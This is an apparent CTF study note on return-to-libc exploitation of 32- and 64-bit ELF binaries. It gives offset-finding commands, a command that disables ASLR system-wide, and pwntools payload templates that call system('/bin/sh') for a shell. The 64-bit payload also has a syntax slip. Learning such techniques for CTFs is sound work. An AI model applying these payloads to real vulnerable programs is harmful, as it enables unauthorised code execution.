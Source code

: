 ### Return to Lib-C


---

[one gadget](https://github.com/david942j/one_gadget)
```py
NX enabled - Shellcode method cannot be used
ASLR enabled - address space layout randomization to prevent boff attacks
```

Example - same as was used in `Shellcode`

`Dynamically linked` elf files, start returning to libc and try to get a shell

```py
32 bit ELF
cyclic 100
run <payload>
cyclic -l <value in EIP>
search -t string "/bin/sh", grab the address.
ldd <elf file> (different libc address everytime)
Disable aslr : echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
ldd <elf file> (same libc address everytime)
readelf -s <libc library>
```

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/3e26593c-9e8f-47ff-8236-86091f1d3793)

Offset from the base of libc to system : `00045040`

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/4e23a720-a72d-4615-a088-3f8ee15d33db)

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/d67bc19e-4a73-43a4-9ce8-af17c67e1ad9)

```py
payload=flat(
   asm('nop')*padding, # padding up to EIP
   system, # Address of system function in libc
   0x0, # Return pointer
   binsh # Address of /bin/sh in libc
)
```

---

#### 64 bit ELF

```py
ropper --file <filename> --search "pop rdi"

payload=flat(
   asm('nop')*padding, # padding up to RIP
   pop_rdi, # pop the address into the RDI register
   binsh # Address of /bin/sh in libc
   system, # Address of system function in libc
)
